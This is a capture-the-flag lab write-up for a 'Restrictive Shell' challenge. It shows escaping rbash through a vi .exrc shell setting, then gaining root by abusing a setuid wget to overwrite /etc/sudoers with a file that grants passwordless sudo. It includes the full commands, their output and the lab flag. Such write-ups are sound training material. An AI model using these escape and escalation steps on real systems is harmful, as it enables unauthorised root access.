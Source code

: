 # Restrictive Shell

It is very common in multi-user systems to restrict the functionality available to individual users. A common way to do this is by using a custom-built restricted shell. This shell only allows access to a certain set of commands required by the user. The rest are unavailable. In this challenge, you have to breakout of the restricted shell and figure out how to become the root user! This lab, like any good Linux privilege escalation adventure has a bit of everything - setuid binaries, permissions and overridable configurations. Enjoy!

## Escape restricted list of commands

We can only rurn 6 commands from `/home/student/.bin`

```
student@attackdefense:~$ id
rbash: id: command not found
student@attackdefense:~$ whoami
rbash: whoami: command not found
student@attackdefense:~$ echo $PATH
/home/student/.bin
student@attackdefense:~$ ls -l /home/student/.bin/
total 1336
-rwxr-xr-x 1 root root   35064 Sep 28  2018 cat
-rwxr-xr-x 1 root root   10240 Sep 28  2018 clear
-rwxr-xr-x 1 root root   35000 Sep 28  2018 echo
-rwxr-xr-x 1 root root  133792 Sep 28  2018 ls
-rwxr-xr-x 1 root root   35032 Sep 28  2018 tee
-rwxr-xr-x 1 root root 1108024 Sep 28  2018 vi
```

We cannot change the PATH variable

```
student@attackdefense:~$ export PATH=/bin:/usr/bin
rbash: PATH: readonly variable
```

We cannot run :! /bin/bash from vi

There is an `.exrc` file in the home directory - change to /bin/bash

```
student@attackdefense:~$ ls -al
total 20
drwxr-xr-x 1 student student 4096 Nov  2  2018 .
drwxr-xr-x 1 root    root    4096 Sep 28  2018 ..
-rw-r--r-- 1 root    root      36 Nov  2  2018 .bash_profile
drwxr-xr-x 1 student student 4096 Sep 28  2018 .bin
-rw-r--r-- 1 student student   30 Nov  2  2018 .exrc
student@attackdefense:~$ cat .exrc
set exrc
set shell=/bin/false
student@attackdefense:~$ vi .exrc
student@attackdefense:~$ cat .exrc
set exrc
set shell=/bin/bash
```

Now we are able to run /bin/bash from the vi editor - but with limited commands

```
student@attackdefense:~$ vi

bash: groups: command not found
```

We set PATH to allow more commands to run

```
student@attackdefense:~$ export PATH=/bin:/usr/bin
student@attackdefense:~$ whoami
student
```

## Search for setuid binaries for privesc

Do a search for setuid binaries - wget is interesting

```
student@attackdefense:~$ find / -type f -perm -04000 -ls 2>/dev/null
 68363251     76 -rwsr-xr-x   1 root     root        75824 Jan 25  2018 /usr/bin/gpasswd
 68363294     40 -rwsr-xr-x   1 root     root        40344 Jan 25  2018 /usr/bin/newgrp
 68363304     60 -rwsr-xr-x   1 root     root        59640 Jan 25  2018 /usr/bin/passwd
 68363203     76 -rwsr-xr-x   1 root     root        76496 Jan 25  2018 /usr/bin/chfn
 68363205     44 -rwsr-xr-x   1 root     root        44528 Jan 25  2018 /usr/bin/chsh
 88717621    488 -rwsr-xr-x   1 root     root       499264 May  8  2018 /usr/bin/wget
 88717425    148 -rwsr-xr-x   1 root     root       149080 Jan 18  2018 /usr/bin/sudo
 68362676     28 -rwsr-xr-x   1 root     root        26696 May 16  2018 /bin/umount
 68362653     44 -rwsr-xr-x   1 root     root        43088 May 16  2018 /bin/mount
 68362670     44 -rwsr-xr-x   1 root     root        44664 Jan 25  2018 /bin/su
```

Create a tmp sudoers files to host locally

```
student@attackdefense:/tmp$ vi /tmp/sudoers
student@attackdefense:/tmp$ cat /tmp/sudoers
student ALL=NOPASSWD:ALL
student@attackdefense:/tmp$ python -m SimpleHTTPServer 8080 &
[1] 46
```

Download the file and replace local sudoers file

```
student@attackdefense:/tmp$ Serving HTTP on 0.0.0.0 port 8080 ...
student@attackdefense:/tmp$ wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
--2021-07-10 09:30:48--  http://127.0.0.1:8080/sudoers
Connecting to 127.0.0.1:8080... connected.
127.0.0.1 - - [10/Jul/2021 09:30:48] "GET /sudoers HTTP/1.1" 200 -
HTTP request sent, awaiting response... 200 OK
Length: 25 [application/octet-stream]
Saving to: '/etc/sudoers'

/etc/sudoers               100%[========================================>]      25  --.-KB/s    in 0s

2021-07-10 09:30:48 (5.06 MB/s) - '/etc/sudoers' saved [25/25]
```

Run bash without password

```
student@attackdefense:/tmp$ sudo bash
root@attackdefense:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@attackdefense:/tmp# cat /root/flag
a91ccb3e31260fcf5cd9822f66898b5d
```
